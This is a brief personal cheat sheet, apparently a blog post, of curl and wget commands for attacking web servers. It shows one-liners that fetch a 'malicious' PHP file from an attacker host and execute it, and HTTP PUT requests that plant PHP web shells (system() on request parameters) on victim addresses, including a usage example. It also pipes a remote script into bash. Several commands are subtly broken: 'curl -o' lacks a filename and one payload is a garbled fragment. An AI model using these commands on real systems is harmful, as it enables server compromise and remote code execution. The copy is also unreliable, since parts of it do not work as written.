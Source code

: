 ```yaml
---
layout: post
title: HTTP Commands
description: HTTP cheetsheet
date: 2022-04-09
---
```


# Handy HTTP commands

### curl

`curl -o http://192.168.x.x/malicious-shit.php`

you can also pipe in commands too such as

`curl -o http://192.168.x.x/malicious-shit.php ; chmod +x shell.php ; ./shell.php`

User agent change

`curl -A "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0"`

#### HTTP PUT
```
curl http://victim-site.com --upload-file file.txt

curl -X PUT -d '' http://192.168.0.105/test/shell.php

curl -X PUT -d '' http://10.11.1.14/shell.asp

curl -X PUT -d 'http://10.11.0.220/shell-p-444.asp' http://10.11.1.14/shell.asp

curl -X PUT -d '&%d 2>&%d",f,f,f)' ?>' http://10.11.1.14/shell.txt

curl -X PUT -d '"; $cmd = ($_REQUEST['cmd']); system($cmd); echo ""; die; }?>' http://10.11.1.229/poopypants.txt

curl -X PUT -d '<?php system($_GET["exec"]); ?>' http://192.168.0.105/test/shell.php
-> http://192.168.0.105/test/shell.php/?exec=ifconfig

curl -X PUT -d '<?php system($_REQUEST["exec"]); ?>' http://10.11.1.14/shell.asp
```

### wget

`wget -O - https://raw.githubusercontent.com/laurent22/joplin/master/Joplin_install_and_update.sh | bash`

`wget -O http://192.168.x.x/malicious-shit.php`

you can also pipe in commands too such as

`wget -O http://192.168.x.x/malicious-shit.php ; chmod +x shell.php ; ./shell.php`
